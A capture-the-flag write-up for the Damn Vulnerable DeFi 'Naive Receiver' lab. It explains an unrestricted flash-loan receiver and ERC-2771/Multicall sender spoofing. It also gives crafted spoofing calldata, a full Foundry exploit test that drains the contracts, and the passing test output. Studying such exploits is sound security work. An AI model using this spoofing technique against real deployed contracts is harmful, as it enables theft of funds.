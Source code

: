 # Challenge - Naive Receiver

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract.

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

## Objective of CTF

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

## Vulnerability Analysis

### Root Cause 1: Untrusted Flashloan Initiator

The `onFlashLoan` function in the `FlashLoanReceiver` contract is an implementation of the `IERC3156FlashBorrower` interface. However, in this implementation, the `initiator` and `data` parameters are completely ignored. Additionally, the function lacks any restrictions on who can initiate the flash loan.

Since there are no restrictions on who can initiate flash loans, and each flash loan incurs a fixed fee of 1 WETH, an attacker can continuously initiate flash loans on behalf of the `FlashLoanReceiver` contract. This process will eventually drain all the WETH from the `FlashLoanReceiver` contract.

The prototype for the `onFlashLoan` function in the `IERC3156FlashBorrower` interface is:

```solidity
function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external returns (bytes32);
```

The implementation of the `onFlashLoan` function in the `FlashLoanReceiver` contract is as follows:

```solidity
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata) external returns (bytes32){
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    WETH(payable(token)).approve(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

### Root Cause 2: Arbitrary Address Spoofing

#### Quick Overview:

Contracts that implement both Multicall and ERC-2771 are vulnerable to address spoofing. An attacker can exploit this by wrapping malicious calldata in a forwarded request, using Multicall's `delegatecall` to manipulate the `_msgSender()` resolution in subsequent calls.

#### Demonstration

The `NaiveReceiverPool` contract supports meta-transactions (ERC-2771) and designates the `BasicForwarder` contract as a trusted forwarder. When interacting with `NaiveReceiverPool` via meta-transactions, the forwarder sends transactions on behalf of the user. However, in this context, the `msg.sender` during the transaction becomes the forwarder. To preserve the original user address, the forwarder appends the user's address to the end of the user's request data, i.e. `request.data`, as shown in the following code snippet:

```solidity
bytes memory payload = abi.encodePacked(request.data, request.from);
```

When `NaiveReceiverPool` needs to retrieve the actual user address (the "real" `msg.sender`), it does so using the `_msgSender()` function. This function is designed to reconstruct the original user address as follows:

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

In this function, if `msg.sender` is the trusted forwarder and `msg.data` is at least 20 bytes long (indicating that the user’s address has been correctly appended), it extracts the last 20 bytes of `msg.data` to retrieve the original user address. If these conditions are not met, it defaults to the parent contract’s `_msgSender()` method, which returns the standard `msg.sender`.

Do you see the potential vulnerability? When interacting with the `NaiveReceiverPool` contract through the forwarder, the `_msgSender()` function returns the last 20 bytes of `msg.data` as the user’s address, which is the "real" `msg.sender`.

Next, we'll explore how to use `multicall` to inject an arbitrary address and deceive the `_msgSender()` function.

Here is the `multicall` code snippet:

```solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}
```

This function allows multiple function calls to be executed in a single transaction. It takes an array of encoded function calls as input and executes each call using `functionDelegateCall`, returning an array of results.

Our objective is to impersonate the `feeReceiver` and call `withdraw()` in `NaiveReceiverPool` contract. The `withdraw` function is as follows:

```solidity
function withdraw(uint256 amount, address payable receiver) external {
    // Reduce deposits
    deposits[_msgSender()] -= amount;
    totalDeposits -= amount;

    // Transfer ETH to designated receiver
    weth.transfer(receiver, amount);
}
```

Here is our attack flow:

<img src="https://7795250.fs1.hubspotusercontent-na1.net/hub/7795250/hubfs/image-png-Dec-07-2023-07-22-47-6921-PM.png?width=2670&height=2135&name=image-png-Dec-07-2023-07-22-47-6921-PM.png" alt="Attack Flow Diagram" width="50%" />

> [!NOTE]
> This diagram is sourced from OpenZeppelin's blog [post](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure#fbbbdc1e-1d3f-4214-9e8b-54c476486820).

We can craft a malicious calldata for the forwarder to execute on our behalf. This calldata will invoke the `multicall` function in the `NaiveReceiverPool` contract. Within the `multicall` function, we will inject the `feeCollector` address into the `withdraw` function call in the `NaiveReceiverPool` contract.

Here is how we inject the `feeCollector` address into the `withdraw` function call:

The original calldata before injecting the feeCollector address

```
0xac9650d8                                                       -> multicall(bytes[]) signature
0000000000000000000000000000000000000000000000000000000000000020 -> bytes[] offset
0000000000000000000000000000000000000000000000000000000000000001 -> length of the array
0000000000000000000000000000000000000000000000000000000000000020 -> bytes[1] offset
0000000000000000000000000000000000000000000000000000000000000044 -> length of the bytes[1] in hexadecimal
00f714ce                                                         -> withdraw(uint256,address) signature
000000000000000000000000000000000000000000000036c090d0ca68880000 -> 1010 ether in hexadecimal
00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C -> player address
```

This calldata represents a `multicall` that will invoke the `withdraw()` function with two parameters: the `amount` to withdraw (1010 ether) and the `recipient` address (player address). The ABI encoding length for `bytes[1]` is 68 bytes (0x44 in hexadecimal), which is the length of the first element in the `bytes[]` array

To inject the `feeCollector` address, we'll modify the calldata as follows:

```
0xac9650d8
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000058 -> change to 0x58 due to the extra 20 bytes
00f714ce
000000000000000000000000000000000000000000000036c090d0ca68880000
00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C
aE0bDc4eEAC5E950B67C6819B118761CaAF61946                         -> append the feeCollector address
```

Explanation:

1. **Length Adjustment**: We modify the calldata length from 68 bytes (0x44) to 88 bytes (0x58) to accommodate the extra 20 bytes needed for the `feeCollector` address.
2. **Appending the `feeCollector` Address**: By appending the `feeCollector` address at the end of the calldata, we trick the `_msgSender()` function into interpreting this address as the original sender. This allows us to withdraw funds as if we were the `feeCollector`.

### Attack steps:

1. Exhaust the WETH in the `receiver` contract by initiating a flash loan. At this point, the `NaiveReceiverPool` should contain 1,010 WETH.
2. Craft a malicious calldata to impersonate the `feeCollector` and invoke the `withdraw` function in the `NaiveReceiverPool` contract, thereby withdrawing all WETH and transferring it to the `player`.
3. Transfer all WETH from the `player` to the `recovery`.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import { Test, console } from "forge-std/Test.sol";
import { NaiveReceiverPool, Multicall, WETH } from "../../src/naive-receiver/NaiveReceiverPool.sol";
import { FlashLoanReceiver } from "../../src/naive-receiver/FlashLoanReceiver.sol";
import { BasicForwarder } from "../../src/naive-receiver/BasicForwarder.sol";

contract NaiveReceiverChallenge is Test {
    address deployer = makeAddr("deployer");
    address recovery = makeAddr("recovery");
    address player;
    uint256 playerPk;

    uint256 constant WETH_IN_POOL = 1000e18;
    uint256 constant WETH_IN_RECEIVER = 10e18;

    NaiveReceiverPool pool;
    WETH weth;
    FlashLoanReceiver receiver;
    BasicForwarder forwarder;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        (player, playerPk) = makeAddrAndKey("player");
        startHoax(deployer);

        // Deploy WETH
        weth = new WETH();

        // Deploy forwarder
        forwarder = new BasicForwarder();

        // Deploy pool and fund with ETH
        pool = new NaiveReceiverPool{ value: WETH_IN_POOL }(address(forwarder), payable(weth), deployer);

        // Deploy flashloan receiver contract and fund it with some initial WETH
        receiver = new FlashLoanReceiver(address(pool));
        weth.deposit{ value: WETH_IN_RECEIVER }();
        weth.transfer(address(receiver), WETH_IN_RECEIVER);

        vm.stopPrank();
    }

    function test_assertInitialState() public {
        // Check initial balances
        assertEq(weth.balanceOf(address(pool)), WETH_IN_POOL);
        assertEq(weth.balanceOf(address(receiver)), WETH_IN_RECEIVER);

        // Check pool config
        assertEq(pool.maxFlashLoan(address(weth)), WETH_IN_POOL);
        assertEq(pool.flashFee(address(weth), 0), 1 ether);
        assertEq(pool.feeReceiver(), deployer);

        // Cannot call receiver
        vm.expectRevert(0x48f5c3ed);
        receiver.onFlashLoan(
            deployer,
            address(weth), // token
            WETH_IN_RECEIVER, // amount
            1 ether, // fee
            bytes("") // data
        );
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_naiveReceiver() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("WETH balance in the receiver contract", weth.balanceOf(address(receiver)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the pool contract", weth.balanceOf(address(pool)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the recovery contract", weth.balanceOf(address(recovery)), weth.decimals());

        // Executing flashloan without the user's consent
        // This will exhaust all WETH in the receiver contract.
        for (uint256 i; i < 10; ++i) pool.flashLoan(receiver, address(weth), 1 ether, hex"");

        // spoof as the deployer to withdraw all WETH tokens to the player
        // craft a calldata to bypass _msgSender and achieve arbitrary address spoofing
        //ac9650d8                                                         -> multicall(bytes[]) signature
        //0000000000000000000000000000000000000000000000000000000000000020 -> bytes[] offset
        //0000000000000000000000000000000000000000000000000000000000000001 -> length of the array
        //0000000000000000000000000000000000000000000000000000000000000020 -> bytes[1] offset
        //0000000000000000000000000000000000000000000000000000000000000058 -> length of the bytes[1]
        //00f714ce                                                         -> withdraw(uint256,address) signature
        //000000000000000000000000000000000000000000000036c090d0ca68880000 -> 1010 ether in hexadecimal
        //00000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305C -> player address
        //aE0bDc4eEAC5E950B67C6819B118761CaAF61946                         -> feeCollector address

        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: gasleft(),
            nonce: 0,
            data: hex"ac9650d8000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000005800f714ce000000000000000000000000000000000000000000000036c090d0ca6888000000000000000000000000000044E97aF4418b7a17AABD8090bEA0A471a366305CaE0bDc4eEAC5E950B67C6819B118761CaAF61946",
            deadline: block.timestamp
        });

        bytes32 digest = keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        // execute ----> multicall ---> withdraw
        forwarder.execute(request, signature);

        // transfer all WETH to the recovery address
        weth.transfer(recovery, 1010 ether);

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint("WETH balance in the receiver contract", weth.balanceOf(address(receiver)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the pool contract", weth.balanceOf(address(pool)), weth.decimals());
        emit log_named_decimal_uint("WETH balance in the recovery contract", weth.balanceOf(address(recovery)), weth.decimals());
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed two or less transactions
        assertLe(vm.getNonce(player), 2);

        // The flashloan receiver contract has been emptied
        assertEq(weth.balanceOf(address(receiver)), 0, "Unexpected balance in receiver contract");

        // Pool is empty too
        assertEq(weth.balanceOf(address(pool)), 0, "Unexpected balance in pool");

        // All funds sent to recovery account
        assertEq(weth.balanceOf(recovery), WETH_IN_POOL + WETH_IN_RECEIVER, "Not enough WETH in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/naive-receiver/NaiveReceiver.t.sol:NaiveReceiverChallenge
[PASS] test_assertInitialState() (gas: 34878)
[PASS] test_naiveReceiver() (gas: 431355)
Logs:
  WETH balance in the receiver contract: 10.000000000000000000
  WETH balance in the pool contract: 1000.000000000000000000
  WETH balance in the recovery contract: 0.000000000000000000
  -------------------------- After exploit --------------------------
  WETH balance in the receiver contract: 0.000000000000000000
  WETH balance in the pool contract: 0.000000000000000000
  WETH balance in the recovery contract: 1010.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.35ms (1.77ms CPU time)

Ran 1 test suite in 260.81ms (7.35ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

## References

1. https://www.rareskills.io/post/erc-3156
2. https://www.rareskills.io/post/abi-encoding
3. https://docs.soliditylang.org/en/latest/abi-spec.html
4. https://www.alchemy.com/overviews/meta-transactions
5. https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure
